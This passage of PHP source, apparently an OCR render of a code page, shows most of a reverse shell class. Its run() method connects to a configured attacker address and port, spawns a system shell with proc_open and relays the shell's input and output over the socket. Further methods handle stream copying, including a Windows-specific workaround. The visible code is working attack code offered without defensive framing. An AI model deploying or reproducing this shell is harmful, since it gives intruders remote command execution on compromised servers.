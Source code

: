 ```pHP
            $this->error = true;                            // set global error flag
            echo "STRM_ERROR: Cannot write to ${name}, script will now exit...\n";
        }
        return $bytes;
    }
    // read/write method for non-blocking streams
    private function rw($input, $output, $iname, $oname) {
        while (($data = $this->read($input, $iname, $this->buffer)) && $this->write($output, $oname, $data)) {
            if ($this->os === 'WINDOWS' && $oname === 'STDIN') { $this->clen += strlen($data); } // calculate the command length
            $this->dump($data); // script's dump
        }
    }
    // read/write method for blocking streams (e.g. for STDOUT and STDERR on Windows OS)
    // we must read the exact byte length from a stream and not a single byte more
    private function brw($input, $output, $iname, $oname) {
        $fstat = fstat($input);
        $size = $fstat['size'];
        if ($this->os === 'WINDOWS' && $iname === 'STDOUT' && $this->clen) {
            // for some reason Windows OS pipes STDIN into STDOUT
            // we do not like that
            // we need to discard the data from the stream
            while ($this->clen > 0 && ($bytes = $this->clen >= $this->buffer ? $this->buffer : $this->clen) && $this->read($input, $iname, $bytes)) {
                $this->clen -= $bytes;
                $size -= $bytes;
            }
        }
        while ($size > 0 && ($bytes = $size >= $this->buffer ? $this->buffer : $size) && ($data = $this->read($input, $iname, $bytes)) && $this->write($output, $oname, $data)) {
            $size -= $bytes;
            $this->dump($data); // script's dump
        }
    }
    public function run() {
        if ($this->detect() && !$this->daemonize()) {
            $this->settings();

            // ----- SOCKET BEGIN -----
            $socket = @fsockopen($this->addr, $this->port, $errno, $errstr, 30);
            if (!$socket) {
                echo "SOC_ERROR: {$errno}: {$errstr}\n";
            } else {
                stream_set_blocking($socket, false); // set the socket stream to non-blocking mode | returns 'true' on Windows OS

                // ----- SHELL BEGIN -----
                $process = @proc_open($this->shell, $this->descriptorspec, $pipes, null, null);
                if (!$process) {
                    echo "PROC_ERROR: Cannot start the shell\n";
                } else {
                    foreach ($pipes as $pipe) {
                        stream_set_blocking($pipe, false); // set the shell streams to non-blocking mode | returns 'false' on Windows OS
                    }

                    // ----- WORK BEGIN -----
                    $status = proc_get_status($process);
                    @fwrite($socket, "SOCKET: Shell has connected! PID: " . $status['pid'] . "\n");
                    do {
						$status = proc_get_status($process);
                        if (feof($socket)) { // check for end-of-file on SOCKET
```